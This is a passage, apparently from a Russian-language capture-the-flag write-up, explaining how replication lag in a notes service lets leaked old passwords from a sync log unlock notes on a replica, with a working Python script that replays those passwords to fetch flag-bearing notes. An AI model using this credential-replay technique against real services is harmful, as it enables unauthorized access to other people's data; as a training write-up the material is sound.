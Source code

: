 Но если мы попробуем так сделать, то мы потерпим неудачу. Тут надо вспомнить,
что лаг репликации может быть большим, поэтому как только мы увидели новый
пароль в логе, он не сразу же попал на реплику. То есть, мы еще немного ждем и в
какой-то момент реплика применяет пароль и мы можем читать заметки.

> В действительности новая заметка создавалась каждые 7-15 секунд, тогда как лаг
> репликации был 20 секунд (имитировалось через настройку
> `recovery_min_apply_delay` в Postgres). То есть, мы могли увидеть еще
> несколько паролей, прежде чем наш пароль подошел бы на реплике.

В итоге, все что нам остается — читать лог и пытаться применить пароли с
какого-то момента, а после заменить пароль следующим. Напишем для этого скрипт:

```python
from collections import deque
import sys
import json

import requests
from requests.auth import HTTPBasicAuth

url = input('url: ')
token = input('token: ')


queue = deque()
password_queue = deque()
last_pwd = ''

basic = HTTPBasicAuth(token, 'password')
with requests.get(f"{url}/sync/{token}/", stream=True) as sync:
    sync.raise_for_status()
    for line in sync.iter_lines():
        value = json.loads(line)
        queue.append(value['id'])
        password_queue.append(value['old_password'])
        print(value)
        while queue:
            elem = queue[0]
            r = requests.get(f"{url}/{token}/{elem}", auth=basic)
            while password_queue and r.status_code == 401:
                basic = HTTPBasicAuth(token, password_queue.popleft())
                r = requests.get(f"{url}/{token}/{elem}", auth=basic)
            if r.status_code == 200:
                queue.popleft()
                text = r.text
                if 'ugra_' in text:
                    print(text)
            elif r.status_code in (401, 404):
                break
            else:
                print(r.status_code, r.text)
                sys.exit(1)
```
